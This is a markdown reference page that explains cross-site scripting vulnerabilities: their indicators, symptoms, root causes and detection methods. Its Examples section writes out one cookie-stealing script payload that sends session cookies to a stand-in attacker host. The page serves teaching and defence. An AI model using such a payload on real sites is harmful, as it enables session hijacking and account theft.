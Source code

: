 ```yaml
---
title: Cross-Site Scripting Vulnerabilities
description: Inadequate input validation and output encoding allows attackers to inject
  malicious scripts that execute in users' browsers.
category:
- Code
- Security
related_problems:
- slug: sql-injection-vulnerabilities
  similarity: 0.65
- slug: log-injection-vulnerabilities
  similarity: 0.6
- slug: buffer-overflow-vulnerabilities
  similarity: 0.55
- slug: session-management-issues
  similarity: 0.55
- slug: authentication-bypass-vulnerabilities
  similarity: 0.5
layout: problem
---
```


## Description

Cross-Site Scripting (XSS) vulnerabilities occur when web applications fail to properly validate user input or encode output, allowing attackers to inject malicious scripts that execute in other users' browsers. These vulnerabilities can lead to session hijacking, data theft, defacement, or other malicious activities performed in the context of the victim's browser session.

## Indicators ⟡

- User input displayed in web pages without proper encoding
- JavaScript code can be injected through form fields or URL parameters
- Dynamic content generation without input sanitization
- Client-side data validation without corresponding server-side validation
- User-generated content displayed without security filtering

## Symptoms ▲

- **Script Injection:** Malicious JavaScript code executed in user browsers
- **Session Token Theft:** Attackers stealing session cookies through injected scripts
- **Page Defacement:** Unauthorized modification of web page content
- **Phishing Attacks:** Fake login forms or content injected to steal credentials
- **Malicious Redirects:** Users redirected to attacker-controlled websites

## Root Causes ▼

- **Insufficient Input Validation:** User input not properly validated or sanitized before processing
- **Missing Output Encoding:** Dynamic content not encoded appropriately for the output context
- **Direct DOM Manipulation:** Client-side code directly inserting user data into the DOM
- **Inadequate Content Security Policy:** Missing or weak CSP headers allowing script execution
- **Server-Side Template Injection:** Template engines processing user input without proper escaping
- **Third-Party Component Vulnerabilities:** Vulnerable JavaScript libraries or frameworks

## Detection Methods ○

- **Input Validation Testing:** Test all input fields and parameters for script injection
- **Output Encoding Analysis:** Review how user data is displayed and encoded in responses
- **Automated Security Scanning:** Use security scanners to identify potential XSS vulnerabilities
- **Code Review for XSS Patterns:** Review code for common XSS vulnerability patterns
- **Content Security Policy Testing:** Verify CSP effectiveness in preventing script injection

## Examples

A blog application displays user comments directly in HTML without encoding special characters. An attacker posts a comment containing `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` which executes in every visitor's browser, sending their session cookies to the attacker's server. The attacker can then use these session cookies to impersonate users and access their accounts. Another example involves a search function that displays the search term in the results page like "Results for: [user input]". An attacker crafts a malicious URL with JavaScript in the search parameter. When victims click the link, the script executes and can perform actions on behalf of the user, such as changing account settings or making unauthorized transactions.
